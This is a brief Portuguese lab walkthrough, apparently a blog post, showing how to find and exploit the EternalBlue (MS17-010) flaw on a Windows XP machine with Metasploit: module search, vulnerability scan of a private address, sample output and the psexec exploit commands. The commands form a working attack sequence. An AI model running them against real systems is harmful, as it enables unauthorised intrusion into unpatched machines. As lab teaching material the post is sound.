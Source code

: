 ```yaml
---
title: Exploitation - Eternal Blue ( WinXP )
category: post
---
```


>O EternalBlue é um exploit de ataque cibernético desenvolvido pela Agência de Segurança Nacional dos Estados Unidos da América. Foi divulgado pelo grupo de hackers Shadow Brokers em 14 de abril de 2017, um mês depois que a Microsoft lançou correções para a vulnerabilidade. by : Wikipédia

**Explorando o EternalBlue WindowsXP**


- Primeiro vamos entrar no metasploit logando com o msfconsole e procurar a Vulnerabilidade em questão.

```ruby
msfconsole
msf6 > search eternalblue
```

or

```ruby
msfconsole
msf6 > search ms17-010
```

---

- Agora temos que ter o 'host' do alvo, para verificarmos se o alvo é um target Windows XP e se está vulnerável. Nesse caso o host é : _10.10.1.4_


```ruby
use auxiliary/scanner/smb/smb_ms17_010
set RHOST 10.10.1.4
exploit
```

- Se tudo der certo, obtemos uma resposta parecida com o seguinte:

```text
[+] 10.l0.1.4:445      - Host is likely VULNERABLE to MS17-010! - Windows 5.1
[*] 10.l0.1.4:445      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

---


### Explorando o host que identificamos que esta vulneravel


```ruby
msf6 > back
msf6 > use exploit/windows/smb/ms17_010_psexec

set RHOST 10.10.1.4
set LHOST 10.10.1.2
run
```